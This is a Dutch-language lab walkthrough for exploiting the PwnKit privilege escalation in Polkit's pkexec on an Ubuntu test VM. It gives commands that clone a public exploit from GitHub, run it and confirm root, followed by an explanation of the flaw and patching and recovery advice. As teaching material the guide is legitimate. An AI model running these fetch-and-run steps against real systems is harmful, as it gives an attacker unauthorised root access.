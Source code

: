 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 📝 Cheatsheet

- SSH naar de kwetsbare VM: `ssh tester@<ubuntu_ip>`
- Controleer huidige rechten: `id`
- Clone exploit en navigeer:
  ```bash
  git clone https://github.com/cd80-ctf/CVE-2021-4034.git && cd CVE-2021-4034
  ```
- Maak exploit uitvoerbaar: `chmod +x run.sh`
- Voer exploit uit: `./run.sh`
- Verifieer root-toegang: `id` of `whoami`
- Voor preventie en herstel: zie secties "Best Practices" en "Impact & Recovery"

## 🔍 Kwetsbaarheidsanalyse

### Technische Details

- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen

- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):

   ```bash
   ssh tester@<ubuntu_ip>
   ```

1.2 open de bash shell
``` bash
bash
```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1001(tester) gid=1001(tester) groups=1001(tester)
   ```

### 2. Exploit Setup

1. install git
```bash
sudo apt install git gcc
```

2. Clone de exploit repository:

   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

3. Maak de exploit uitvoerbaar:

   ```bash
   chmod +x run.sh
   ```

4. Voer de exploit uit:
   ```bash
   ./run.sh
   ```


### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:

   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**

   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Overweeg gebruik van AppArmor/SELinux profielen voor pkexec

## 🔄 Impact & Recovery

- Na exploitatie kan een aanvaller volledige root-toegang verkrijgen, wat leidt tot installatie van rootkits, backdoors en volledige compromittering.
- Recovery stappen:
  1. Beëindig ongeautoriseerde sessies en wijzig alle wachtwoorden.
  4. Overweeg herinstallatie van het besturingssysteem bij vermoeden van rootkit-infectie.

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.

